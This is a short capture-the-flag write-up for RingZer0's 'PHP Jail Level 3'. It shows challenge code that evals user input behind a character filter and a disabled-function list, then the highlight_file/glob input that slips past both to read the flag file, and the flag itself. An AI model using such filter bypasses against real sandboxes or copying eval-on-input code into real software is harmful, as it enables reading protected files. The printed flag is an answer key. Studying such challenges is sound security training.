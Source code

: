 
```.shell
RingZer0 Team Online CTF

PHP Jail Level 3:
Current user is uid=1002(level3) gid=1002(level3) groups=1002(level3)

Flag is located at /home/level3/flag.txt

Challenge PHP code:
-----------------------------

WARNING: the PHP interpreter is launched using php -c php.ini jail.php.
The php.ini file contain "disable_functions=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,readfile,require,require_once,include,include_once,file"

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

function filter($var) {
        if(preg_match('/(`|\.|\$|\/|a|c|s|require|include)/i', $var)) {
                return false;
        }
        return true;
}
if(filter($var)) {
        eval($var);
        echo "Command executed";
} else {
        echo "Restricted characters has been used";
}
echo "\n";
?>

-----------------------------

```

Since a lot of functions have been disabled, one must find a function that is **allowed** and doesn't contain any restricted characters. [highlight_file](http://php.net/manual/en/function.highlight-file.php) is one of those functions:

```.php
Your input:
highlight_file(glob("fl*txt")[0]);
<code><span style="color: #000000">
FLAG-D6jg9230H05II3ri5QB7L9166gG73l8H<br /></span>
</code>Command executed
```

# Level 4
